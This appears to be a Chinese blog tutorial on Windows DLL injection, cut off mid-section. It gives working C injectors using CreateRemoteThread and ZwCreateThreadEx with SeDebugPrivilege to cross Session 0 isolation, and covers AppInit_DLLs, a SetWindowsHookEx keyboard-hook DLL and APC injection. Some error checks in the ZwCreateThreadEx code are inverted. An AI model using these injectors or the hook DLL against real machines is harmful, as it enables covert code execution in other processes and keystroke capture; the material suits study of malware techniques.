

dll注入和进程注入都属于是代码注入的一种，但是直接注入dll相比于注入shellcode来说不用去关心api函数的调用和位置无关代码的定位。

环境：C、Gcc、Windows11

参考：

- 《逆向工程核心原理》
- https://xz.aliyun.com/t/10318#toc-6
- lll哥

# 编写dll

dll注入需要先准备一个dll文件。这个可是比进程注入简单多了，简单太多了，再也不用为了写shellcode恶心了。

## dll程序结构：

### DllMain

dll程序可以存在DllMain函数，也可以只存在需要导出的函数。

但是在dll注入的时候，当dll被注入到目标进程之后，dllmain函数会被动执行，所以编写dll注入用的dll就一定需要dllmain。相同的，当执行LoadLibrary函数的时候，也会自动执行dllmain函数。

dllmain有一个固定的结构，注册了四个回调函数，用来表示四种不同的状态。

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  switch (fdwReason)
  { 
    // 将dll文件附加到进程（加载到地址空间时）。
  	case DLL_PROCESS_ATTACH:
    break;
	// 在进程中创建了新线程之后会执行。
    case DLL_THREAD_ATTACH:
      break;
	
    // 进程中的线程退出时，执行的函数。
    case DLL_THREAD_DETACH:
      break;
	// 当dll从进程空间脱离（退出）时执行的进程。
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

### Export function

在前面声明一下函数的调用约定，利用`dllexport`关键字来说明这个函数是导出函数。

```c
__declspec(dllexport) int __cdecl DownLoadFileFromUrl(int i)
{
	if(i==1)
	{	
		MessageBox(NULL, TEXT("start download file"), TEXT("title 2"), MB_OK);
  		return RUN_SUCESS;
	}
	else if(i==2)
	{
		MessageBox(NULL, TEXT("stop download file"), TEXT("title 2"), MB_OK);
  		return RUN_SUCESS;
	}

}
```

可以这么写，也可以另外使用一个`.h`文件来说明。

## 测试代码

利用gcc命令进行编译，不要用dev，会出问题

```shell
gcc -o MessageboxDll.dll -shared MessageboxDll.c
```

在载入进程和脱离进程的时候都进行了函数调用，

```c
#include<stdio.h>
#include<windows.h>
#include<stdlib.h>

#define RUN_SUCESS 0

__declspec(dllexport) int __cdecl DownLoadFileFromUrl(int i)
{
	if(i==1)
	{
		MessageBox(NULL, TEXT("start download file"), TEXT("title 2"), MB_OK);
  		return RUN_SUCESS;
	}
	else if(i==2)
	{
		MessageBox(NULL, TEXT("stop download file"), TEXT("title 2"), MB_OK);
  		return RUN_SUCESS;
	}

}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  switch (fdwReason)
  { 
    // 将dll文件附加到进程（加载到地址空间时）。
  	case DLL_PROCESS_ATTACH:
  		DownLoadFileFromUrl(1);
    	break;
	// 在进程中创建了新线程之后会执行。
    case DLL_THREAD_ATTACH:
      	break;
	
    // 进程中的线程退出时，执行的函数。
    case DLL_THREAD_DETACH:
      	break;
	// 当dll从进程空间脱离（退出）时执行的进程。
    case DLL_PROCESS_DETACH:
    	DownLoadFileFromUrl(2);
		break;
  }
  return TRUE;
}
```

# 注入dll

注入进程拥有目标进程内存的访问权限。注入dll主要有以下三种方法：

- 创建远程线程
- 使用注册表
- 消息HOOK
- APC注入


## 1、创建远程线程

利用`CreateRemoteThread`API进行dll注入，这个API也是在进程注入中常用的API。

### 思路

- 将要注入的dll的路径写入被注入进程的地址。
- 通过`CreateRemoteThread`api利用`Loadlibrary`api远程执行，载入dll。
- 结束

### 实现代码

下列的代码并不能成功注入dll程序，dll程序是可以正常执行的。但是writeprocessmemory这个api是可以正常执行的。

字符串也能写进去，然后参数传递也正常，通过断点发现调用loadlibrary函数也正常

```c
#include<Windows.h>
#include<stdio.h>
#include<stdlib.h>

#define notePID 1924
//char* dllpath = "C:\\Users\\rootkit\\Desktop\\dll注入\\MessageboxDll.dll";
char* dllpath = "C:\\Users\\rootkit\\Desktop\\32_MessageboxDll.dll";
int main()
{
	size_t dwsize = (strlen(dllpath) + 1); //* sizeof(TCHAR);

	// 获取目标进程的句柄，采用打开现有进程的形式
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, notePID);

	// 在目标进程中开辟内存空间，用来存放注入的dll的地址
	LPVOID pRemotebuf= VirtualAllocEx(hProcess, NULL, dwsize, MEM_COMMIT, PAGE_READWRITE);
	printf("[+] VirtualAlloc sucess addr = %p\n", pRemotebuf);

	// 向开辟出来的地址写入dll路径
	WriteProcessMemory(hProcess, pRemotebuf, (LPCVOID)dllpath, dwsize, NULL);
	printf("[+] WriteProcessMemory sucess write dll path to target memroy \n");

	/*
	* 获取loadlibrary的地址。两种方法
	* 1、直接在本程序获得（在Windows中共享库的地址是一定的）
	* 2、利用PEB计算目标程序的kerneldll地址，复杂但是适合远程
	*/ 
	//HMODULE hMOD = GetModuleHandle(L"kernel32.dll");
	HMODULE hMOD = GetModuleHandle(L"kernelbase.dll");
	FARPROC pThreadProc = GetProcAddress(hMOD, "LoadLibraryW");
	printf("[+] GetProcAddress sucess pthreadproc = %p\n", pThreadProc);

	// 执行dll
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pThreadProc, pRemotebuf, 0, NULL);
	printf("[+] CreateRemoteThread sucess \n");

	// 等待信号,创建线程并等待线程函数结束，这里WaitForSingleObject的第二个参数要设置为-1才能够一直等待
    // 等着远程执行完dll之后才退出。但是实际发现意义不大
	//WaitForSingleObject(hProcess, INFINITE);
	
	// 关闭句柄
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;
}
```

解决办法：感谢lll哥的支持。
* 注意loadlibrary的参数模式和参数的形式，char还是unicode
* 主要dll的绝对路径，不能用中文，同目录也要用绝对路径

能用的代码

```c
#include<Windows.h>
#include<stdio.h>
#include<stdlib.h>
#include<tchar.h>


/*
* 注意loadlibrary的参数模式和参数的形式，char还是unicode
* 主要dll的绝对路径，不能用中文，同目录也要用绝对路径
*/
#define notePID 30028
//char* dllpath = "C:\\Users\\rootkit\\Desktop\\dll注入\\MessageboxDll.dll";
//char* dllpath = "C:\\Users\\rootkit\\Desktop\\32_MessageboxDll.dll";
//char* dllpath = "messageboxDll.dll";
LPCWSTR dllpath = L"C:\\Users\\rootkit\\Desktop\\messageboxDll.dll";

int main()
{
	size_t dwsize = (_tcslen(dllpath) + 1) * sizeof(TCHAR);
	//size_t dwsize = (strlen(dllpath) + 1); //* sizeof(TCHAR);

	// 获取目标进程的句柄，采用打开现有进程的形式
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, notePID);

	// 在目标进程中开辟内存空间，用来存放注入的dll的地址
	LPVOID pRemotebuf= VirtualAllocEx(hProcess, NULL, dwsize, MEM_COMMIT, PAGE_READWRITE);
	printf("[+] VirtualAlloc sucess addr = %p\n", pRemotebuf);

	// 向开辟出来的地址写入dll路径
	WriteProcessMemory(hProcess, pRemotebuf, dllpath, dwsize, NULL);
	printf("[+] WriteProcessMemory sucess write dll path to target memroy \n");

	/*
	* 获取loadlibrary的地址。两种方法
	* 1、直接在本程序获得（在Windows中共享库的地址是一定的）
	* 2、利用PEB计算目标程序的kerneldll地址，复杂但是适合远程
	*/ 
	HMODULE hMOD = GetModuleHandle(L"kernelbase.dll");
	//HMODULE hMOD = GetModuleHandle(L"kernelbase.dll");
	LPTHREAD_START_ROUTINE pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMOD, "LoadLibraryW");
	printf("[+] GetProcAddress sucess pthreadproc = %p\n", pThreadProc);

	// 执行dll
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pThreadProc, pRemotebuf, 0, NULL);
	printf("[+] CreateRemoteThread sucess \n");

	// 等待信号,创建线程并等待线程函数结束，这里WaitForSingleObject的第二个参数要设置为-1才能够一直等待
	WaitForSingleObject(hProcess, INFINITE);
	printf("%d\n", GetLastError());
	
	// 关闭句柄
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;
}
```

### 检查方式

- 通过观察dll的显著特征。
- 利用调试器观察。
- 通过pe explore的shift+ctrl+f的功能来搜索dll程序，查看是否被注入。

## 1.5、突破 session 0 隔离

### session 0隔离

#### 历史

在Windows XP、Windows Server 2003，以及更老版本的Windows操作系统中，**服务**和**应用程序**使用**相同的会话**（Session）运行，而这个会话是由**第一个登录到控制台的用户**启动的。该**会话就叫做Session 0**。

从Windows Vista开始，**只有服务可以托管到Session 0中**，**用户应用程序**和**服务**之间会被隔离，并被要求运行在**用户登录到系统时创建的后续会话中**。例如第一个登录的用户创建 Session 1，第二个登录的用户创建Session 2，以此类推。

为了避免应用程序权限混乱造成的风险，微软提供了SESSION 0 隔离机制。



类似于奥特曼里的宇宙，session 0就是有M78星云的宇宙，赛罗飞出来看到的其他宇宙就是session1- n这些。

这里要实现的就是从其他session中，将dll注入到session 0中。

### 原理方法

由于SESSION 0隔离机制在内核6.0之后（vista、7、8...）,当创建一个线程后，并不会立即运行，通过先挂起进程，查看要运行的进程所在会话层之后再决定是否恢复进程运行，直接使用`CreateRemoteThread`无法实现【CreateSuspended的默认参数值为1导致线程无法恢复运行，导致DLL注入失败。】

### 突破

直接调用ZwCreateThreadEx，并在程序运行指定CreateSuspended为0即可实现远程线程注入DLL突破SESSION 0隔离。

### 关键API

#### ZwCreateThreadEx

这个api没有公布，所以介绍不多。在 `ntdll.dll` 中并没有声明，所以我们需要使用 `GetProcAddress`从 `ntdll.dll`中获取该函数的导出地址。

```c
// 64bit的情况下
DWORD WINAPI ZwCreateThreadEx(
         PHANDLE ThreadHandle,
         ACCESS_MASK DesiredAccess,
         LPVOID ObjectAttributes,
         HANDLE ProcessHandle,
         LPTHREAD_START_ROUTINE lpStartAddress,
         LPVOID lpParameter,
         ULONG CreateThreadFlags,
         SIZE_T ZeroBits,
         SIZE_T StackSize,
         SIZE_T MaximumStackSize,
         LPVOID pUnkown);

// 32bit的情况下 
DWORD WINAPI ZwCreateThreadEx(
         PHANDLE ThreadHandle,
         ACCESS_MASK DesiredAccess,
         LPVOID ObjectAttributes,
         HANDLE ProcessHandle,
         LPTHREAD_START_ROUTINE lpStartAddress,
         LPVOID lpParameter,
         BOOL CreateSuspended,
         DWORD dwStackSize,
         DWORD dw1,
         DWORD dw2,
         LPVOID pUnkown);
```

突破到session 0，还需要提高权限到system权限。

#### OpenProcessToken

打开与进程关联的[访问令牌](https://learn.microsoft.com/zh-cn/windows/desktop/SecGloss/a-gly)。

```c
BOOL OpenProcessToken(
__in HANDLE ProcessHandle, 	//要修改访问权限的进程句柄
__in DWORD DesiredAccess, 	//指定你要进行的操作类型
__out PHANDLE TokenHandle 	//返回的访问令牌指针
);
```

如果该函数成功，则返回值为非零值。

#### LookupPrivilegeValueA

检索指定系统上用于本地表示指定特权名称的 LUID (LUID) 本地[唯一标识符](https://learn.microsoft.com/zh-cn/windows/desktop/SecGloss/l-gly)。

```c
BOOL LookupPrivilegeValueA(
  LPCSTR lpSystemName,  //要查看的系统，本地系统直接用NULL
  LPCSTR lpName,    	//指向一个以零结尾的字符串，指定特权的名称
  PLUID  lpLuid     	//用来接收所返回的制定特权名称的信息
);
```

如果函数成功，该函数将返回非零。

#### AdjustTokenPrivileges

启用或禁用指定[访问令牌](https://learn.microsoft.com/zh-cn/windows/desktop/SecGloss/a-gly)中的特权。 在访问令牌中启用或禁用特权需要TOKEN_ADJUST_PRIVILEGES访问权限。

```c
BOOL AdjustTokenPrivileges(
HANDLE TokenHandle, 			//包含特权的句柄
BOOL DisableAllPrivileges,		//禁用所有权限标志
PTOKEN_PRIVILEGES NewState,		//新特权信息的指针(结构体)
DWORD BufferLength, 			//缓冲数据大小,以字节为单位的PreviousState的缓存区(sizeof)
PTOKEN_PRIVILEGES PreviousState,//接收被改变特权当前状态的Buffer
PDWORD ReturnLength 			//接收PreviousState缓存区要求的大小
);
```

### 实现流程

- 对自己进程进行提权，提权是为了执行特权指令
- OpenProcess 打开要注入的进程获取进程句柄
- VirtualAllocEx 在被注入的进程中申请读写内存
- WriteProcessMemory 写入DLL路径到申请的内存中
- 获取ZtCreateThreadEx地址

#### 提权

因为目标进程要执行高权限的一些存放在dll中的一些函数功能，所以需要先对目标进程进行提权操作。

1、OpenProcessToken
2、LookupPrivilegeValue
3、AdjustTokenPrivileges

所谓提权的本质还是利用`AdjustTokenPrivileges`api将禁用的权限重新启用。

```c
#include<stdio.h>
#include<stdlib.h>
#include<Windows.h>

BOOL EnableDebugPrivilege()
{
    HANDLE hToken;
    BOOL fOk = FALSE;
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
    {
        TOKEN_PRIVILEGES tp;
        tp.PrivilegeCount = 1;
        LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);

        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);

        fOk = (GetLastError() == ERROR_SUCCESS);
        CloseHandle(hToken);
    }
    return fOk;
}
```

然后利用提到的API进行系统服务级别的dll的注入

```c
#include<stdio.h>
#include<stdlib.h>
#include <Windows.h>


#ifdef _WIN64
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif

#define notePID 23472

LPCWSTR pszDllFileName = L"C:\\Users\\rootkit\\Desktop\\messageboxDll.dll";

BOOL EnableDebugPrivilege()
{
	HANDLE hToken;
	BOOL fOk = FALSE;

	// 利用 TOKEN_ADJUST_PRIVILEGES ，这时启用或禁用特权所必需的，函数返回时标识新打开的访问令牌的句柄的指针hToken
	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		// 包含有关访问令牌的一组特权的信息的结构体
		TOKEN_PRIVILEGES tp;

		//  Privileges 数组中的条目数
		tp.PrivilegeCount = 1;

		// 在本地系统上查找特权名称
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);

		//
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

		// 启用或禁用指定访问令牌中的特权
		fOk = AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);

		CloseHandle(hToken);
	}
	return fOk;
}


int main()
{
	HANDLE hProcess = NULL;
	SIZE_T dwSize = 0;
	LPVOID pDllAddr = NULL;
	FARPROC pFuncProcAddr = NULL;
	HANDLE hRemoteThread = NULL;
	DWORD dwStatus = 0;

	if (!EnableDebugPrivilege())
	{
		printf("modify the promession failed\n");
		return 0;
	}

	// 打开注入进程，获取进程句柄
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, notePID);
	if (hProcess == NULL)
	{
		printf("OpenProcess Error! %d\n", GetLastError());
		return 3;
	}

	// 在注入的进程申请内存地址
	dwSize = lstrlen(pszDllFileName) + 1;
	pDllAddr = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (NULL == pDllAddr)
	{
		printf("VirualAlloc failed %d\n", GetLastError());
		return 3;
	}

	//写入内存地址
	if (WriteProcessMemory(hProcess, pDllAddr, pszDllFileName, dwSize, NULL))
	{
		printf("WriteProcessMemory failed %d", GetLastError());
		return 3;
	}

	//加载ntdll
	HMODULE hNtdllDll = LoadLibraryA("ntdll.dll");
	if (NULL == hNtdllDll)
	{
		printf("loadlibrary failed %d\n", GetLastError());
		return 3;
	}

	// 获取LoadLibraryA函数地址
	pFuncProcAddr = GetProcAddress(GetModuleHandleA("Kernelbase.dll"), "LoadLibraryW");
	if (pFuncProcAddr)
	{
		printf("find loadlibrary addr failed %d\n", GetLastError());
		return 3;
	}

	//获取ZwCreateThreadEx函数地址
	typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
	if (ZwCreateThreadEx)
	{
		printf("get ZwCreateThread failed %d\n", GetLastError());
		return 3;
	}

	// 使用 ZwCreateThreadEx 创建远线程, 实现 DLL 注入
	dwStatus = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)pFuncProcAddr, pDllAddr, 0, 0, 0, 0, NULL);
	if (ZwCreateThreadEx)
	{
		printf("call ZwCreateThread failed %d\n", GetLastError());
		return 3;
	}

	// 关闭句柄
	CloseHandle(hProcess);
	FreeLibrary(hNtdllDll);

	printf("Inject Dll OK!\n\n");
	return 0;
}
```


## 2、修改注册表

利用 **AppInit_DLLs** 技术通过修改加载顺序来达到注入的目的，这个修改是全局的，可能会导致系统无法正常启动，可以作为一个恶意病毒传播。

###  原理

User32.dll被加载到进程的时候，会读取存放在AppInit_DLLs，如果里面有值的话，就调用loadlibrary加载用户dll，所以这里存放的dll并不会加载到所有进程，只会加载到User32.dll的进程中去。


## 3、SetWindowsHookEx

### 原理

该方法的核心原理是依赖于这个api进行的，其他的没有什么技术。

常见Windows系统是基于消息机制的，通过每一个GUI线程都会维护一个线程消息队列。通过识别消息队列中的不同的消息来达到实现不同功能的目的。

根据上述原理，windows通过钩子机制来截获和监视系统中的这些消息，同样的我们也可以利用hook去实现自己的目的。

Hook分为全局和局部，全局一般用来实现dll注入(因为每一个进程的地址都是独立的，如果不将hook函数作为一个独立的地址，那么执行起来将非常麻烦)，局部hook就是针对某一个线程进行hook。

```c
HHOOK WINAPI SetWindowsHookEx(
__in int idHook, \\钩子类型
__in HOOKPROC lpfn, \\回调函数地址
__in HINSTANCE hMod, \\实例句柄
__in DWORD dwThreadId); \\线程ID，设置为0则为全局钩子，会影响所有的进程
```

使用这个api之后，当任意进程中生成指定的消息的时候，os就会把这个dll载进去，然后调用hook，这都是os自动进行的。

- 钩子类型：idHooK

| 值                       | 含义                                                         |
| :----------------------- | :----------------------------------------------------------- |
| **WH_CALLWNDPROC** 4     | 安装一个挂钩过程，用于监视系统将消息发送到目标窗口过程之前的消息。 有关详细信息，请参阅 [CallWndProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644975(v=vs.85)) 挂钩过程。 |
| **WH_CALLWNDPROCRET** 12 | 安装一个挂钩过程，用于在目标窗口过程处理消息后监视消息。 有关详细信息，请参阅 [CallWndRetProc](https://learn.microsoft.com/zh-cn/windows/desktop/api/winuser/nc-winuser-hookproc) 挂钩过程。 |
| **WH_CBT** 5             | 安装一个挂钩过程，用于接收对 CBT 应用程序有用的通知。 有关详细信息，请参阅 [CBTProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644977(v=vs.85)) 挂钩过程。 |
| **WH_DEBUG** 9           | 安装一个挂钩过程，用于调试其他挂钩过程。 有关详细信息，请参阅 [DebugProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644978(v=vs.85)) 挂钩过程。 |
| **WH_FOREGROUNDIDLE** 11 | 安装将在应用程序前台线程即将处于空闲状态时调用的挂钩过程。 此挂钩可用于在空闲时间执行低优先级任务。 有关详细信息，请参阅 [ForegroundIdleProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644980(v=vs.85)) 挂钩过程。 |
| **WH_GETMESSAGE** 3      | 安装一个挂钩过程，用于监视发布到消息队列的消息。 有关详细信息，请参阅 [GetMsgProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644981(v=vs.85)) 挂钩过程。 |
| **WH_JOURNALPLAYBACK** 1 | 警告从Windows 11开始，不支持日记挂钩 API，将在将来的版本中删除。 因此，我们强烈建议改为调用 [**SendInput**](https://learn.microsoft.com/zh-cn/windows/win32/api/winuser/nf-winuser-sendinput) TextInput API。安装一个挂钩过程，用于发布以前由 [WH_JOURNALRECORD](https://learn.microsoft.com/zh-cn/windows/desktop/winmsg/about-hooks) 挂钩过程记录的消息。 有关详细信息，请参阅 [JournalPlaybackProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644982(v=vs.85)) 挂钩过程。 |
| **WH_JOURNALRECORD** 0   | 警告从Windows 11开始，不支持日记挂钩 API，将在将来的版本中删除。 因此，我们强烈建议改为调用 [**SendInput**](https://learn.microsoft.com/zh-cn/windows/win32/api/winuser/nf-winuser-sendinput) TextInput API。安装一个挂钩过程，用于记录发布到系统消息队列的输入消息。 此挂钩可用于录制宏。 有关详细信息，请参阅 [JournalRecordProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644983(v=vs.85)) 挂钩过程。 |
| **WH_KEYBOARD** 2        | 安装监视击键消息的挂钩过程。 有关详细信息，请参阅 [KeyboardProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644984(v=vs.85)) 挂钩过程。 |
| **WH_KEYBOARD_LL** 13    | 安装用于监视低级别键盘输入事件的挂钩过程。 有关详细信息，请参阅 [LowLevelKeyboardProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644985(v=vs.85)) 挂钩过程。 |
| **WH_MOUSE** 7           | 安装监视鼠标消息的挂钩过程。 有关详细信息，请参阅 [MouseProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644988(v=vs.85)) 挂钩过程。 |
| **WH_MOUSE_LL** 14       | 安装用于监视低级别鼠标输入事件的挂钩过程。 有关详细信息，请参阅 [LowLevelMouseProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644986(v=vs.85)) 挂钩过程。 |
| **WH_MSGFILTER** -1      | 安装一个挂钩过程，用于监视在对话框、消息框、菜单或滚动条中由输入事件生成的消息。 有关详细信息，请参阅 [MessageProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644987(v=vs.85)) 挂钩过程。 |
| **WH_SHELL** 10          | 安装一个挂钩过程，用于接收对 shell 应用程序有用的通知。 有关详细信息，请参阅 [ShellProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644991(v=vs.85)) 挂钩过程。 |
| **WH_SYSMSGFILTER** 6    | 安装一个挂钩过程，用于监视在对话框、消息框、菜单或滚动条中由输入事件生成的消息。 挂钩过程监视与调用线程位于同一桌面中的所有应用程序的消息。 有关详细信息，请参阅 [SysMsgProc](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/legacy/ms644992(v=vs.85)) 挂钩过程。 |

- HOOKPORC

指向挂钩过程的指针。 如果 *dwThreadId* 参数为**零**或指定由其他进程创建的线程的标识符， *则 lpfn* 参数必须指向 DLL 中的挂钩过程。 否则， *lpfn* 可以指向与当前进程关联的代码中的挂钩过程。

- HINSTANCE

包含 *lpfn* 参数指向的挂钩过程的 DLL 的句柄。 如果 *dwThreadId* 参数指定由当前进程创建的线程，并且挂钩过程位于与当前进程关联的代码中，则必须将 *hMod* 参数设置为 **NULL**。

- 返回值

类型： **HHOOK**

如果函数成功，则返回值是挂钩过程的句柄；如果函数失败，则返回值为 **NULL**。 要获得更多的错误信息，请调用 GetLastError。

- KeyboardProc函数

这是 **键盘钩子**的处理函数，这个函数是可以进行重命名的，但是参数不能变，使用这个函数的前提是SetWindowsHookEx函数的第一个参数必须是WH_KEYBOARD，才能使用。相当于一个配套设施了。

```c
LRESULT CALLBACK KeyboardProc(
  _In_ int    code,
  _In_ WPARAM wParam,
  _In_ LPARAM lParam
);
```

### 实现过程

简单起见，直接使用《逆向工程核心原理》的敲击记录的代码来做实验。

keylogger.dll，用来准备注入 dll 程序。

```c
#include<stdio.h>
#include<windows.h>

HINSTANCE g_hInstance = NULL;
HHOOK g_hHook = NULL;
HWND g_hWnd = NULL;

#define DEF_PROCESS_NAME "notepad.exe"

// 这个回调函数用来处理键盘输入
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	char szPath[MAX_PATH] = {0};
	char* p = NULL;
	
	if(nCode >= 0)
	{
		if(!(lParam & 0x80000000))
		{
			GetModuleFileNameA(NULL, szPath, MAX_PATH);
			// 取\\之后的字符，用来判断是不是目标进程notepad。
            p = strrchr(szPath, '\\');
		}
	}
	
	if( !_stricmp(p + 1, DEF_PROCESS_NAME) )
        return 1;
    
    // 不是就换下一个函数
	return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}

// 利用api启动挂钩
__declspec(dllexport) void StartHook()
{
	g_hHook = SetWindowsHookEx(WH_KEYBOARD, KeyboardProc, g_hInstance, 0);
}

// 取消挂钩
__declspec(dllexport) void StopHook()
{
    // 先检查一下第一步挂钩是否成功，是被就不用了
	if(g_hHook)
	{
		UnhookWindowsHookEx(g_hHook);
		g_hHook = NULL;
	}
}

// 这里的dllmain实际上用不到, 写不写都无所谓了
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpvReserved)
{
	switch (dwReason)
	{
		case DLL_PROCESS_ATTACH:
			g_hInstance = hinstDLL;
			break;
		case DLL_PROCESS_DETACH:
			break;
	}
	return TRUE;
}
```

向开始的话直接调用这个dll就可以，然后设置一个退出的条件。

## 4、APC注入

APC，全称为Asynchronous Procedure Call，**异步过程调用**，是指函数在特定线程中被异步执行，在操作系统中，APC是一种并发机制。

### 异步执行

#### 同步

发出一个功能调用时，在没有得到结果之前，该调用就不返回或继续执行后续操作。 简单来说，同步就是必须一件一件事做，等前一件做完了才能做下一件事。 例如：B/S模式中的表单提交，具体过程是：客户端提交请求->等待服务器处理->处理完毕返回，在这个过程中客户端（浏览器）不能做其他事。

类似于顺序执行。

#### 异步

当一个异步过程调用发出后，调用者在**没有得到结果之前，就可以继续执行后续操作**。当这个调用完成后，一般通过**状态、通知**和**回调**来通知调用者。对于异步调用，调用的返回并不受调用者控制。

就是当前线程等待之后，回去执行其他的代码。

- 状态

即监听被调用者的状态（轮询），调用者需要每隔一定时间检查一次，效率会很低。

- 通知

当被调用者执行完成后，发出通知告知调用者，无需消耗太多性能。

- 回调

与通知类似，当被调用者执行完成后，会调用调用者提供的回调函数。

### 阻塞和非阻塞

阻塞与非阻塞主要是程序（线程）等待消息通知时的状态角度来说的。阻塞和非阻塞关注的是程序在等待调用结果（消息，返回值）时的状态。

- 阻塞调用结果返回之前，线程会被挂起，得到结果才会返回，就像scanf等待输入一样。
- 非阻塞调用在不能立刻得到结果之前，该调用不会阻塞当前线程。

### 异步和阻塞的关系

同步/异步关注的是**消息通知的机制** --------------------------> 机制

而阻塞/非阻塞关注的是**线程等待消息通知时的状态。** --------------------------> 状态


### 核心函数

作用：利用这个函数向休眠的目标线程中的APC队列中插入一个函数，在线程恢复的时候，就可以执行到这个函数。

将用户模式 [异步过程调用](https://learn.microsoft.com/zh-cn/windows/win32/sync/asynchronous-procedure-calls) (APC) 对象添加到指定线程的 APC 队列。

每个线程都有自己的 APC 队列。 应用程序通过调用 [**QueueUserAPC 函数将 APC**](https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) 排队到线程。 调用线程在对 **QueueUserAPC** 的调用中指定 APC 函数的地址。 APC 的排队是线程调用 APC 函数的请求。

```c
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,	// 指向指定线程执行等待操作时要调用的 APC 函数的指针
  [in] HANDLE    hThread,	// 线程的句柄。 句柄必须具有 THREAD_SET_CONTEXT 访问权限
  [in] ULONG_PTR dwData		// 传递给 pfnAPC 参数指向的 APC 函数的单个值。
);
```

返回一个整数值。失败返回0；

将上述解释放到实际运用中的作用。

```c
DWORD QueueUserAPC(
    // 要执行函数的地址
  [in] PAPCFUNC  pfnAPC,	// 指向指定线程执行等待操作时要调用的 APC 函数的指针
    // 插入APC的线程句柄
